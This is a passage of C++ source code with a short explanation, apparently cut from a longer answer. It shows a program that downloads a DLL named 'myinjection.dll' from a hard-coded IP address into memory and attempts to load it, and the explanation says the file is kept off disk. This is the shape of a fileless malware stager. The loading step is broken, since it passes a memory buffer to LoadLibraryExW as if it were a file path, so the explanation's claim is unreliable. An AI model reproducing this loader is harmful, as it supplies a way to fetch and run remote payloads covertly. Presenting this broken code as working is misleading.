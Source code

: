 ```cpp
        }
    } while (dwSize > 0);

    // Clean up
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);

    *pBuffer = buffer;
    *pSize = totalSize;
    return true;
}

int main() {
    const wchar_t* url = L"https://192.168.45.250:8000/myinjection.dll";
    LPVOID dllBuffer = NULL;
    DWORD dllSize = 0;

    if (DownloadFileToMemory(url, &dllBuffer, &dllSize)) {
        std::wcout << L"Download successful, loading DLL into memory." << std::endl;

        // Load the DLL from memory
        HMODULE hModule = LoadLibraryExW((LPCWSTR)dllBuffer, NULL, DONT_RESOLVE_DLL_REFERENCES);
        if (hModule) {
            std::wcout << L"DLL loaded successfully." << std::endl;

            // Now you can use GetProcAddress to locate functions and execute them.

            // Free the DLL module
            FreeLibrary(hModule);
        } else {
            std::wcout << L"Failed to load DLL from memory." << std::endl;
        }

        // Free the allocated memory
        free(dllBuffer);
    } else {
        std::wcout << L"Download failed." << std::endl;
    }

    return 0;
}
```

### Explanation:

1. **Download to Memory**:
   - The `DownloadFileToMemory` function downloads the DLL to memory instead of saving it to disk. The downloaded data is stored in a dynamically allocated buffer.
   - Memory is reallocated as needed to accommodate the entire DLL.
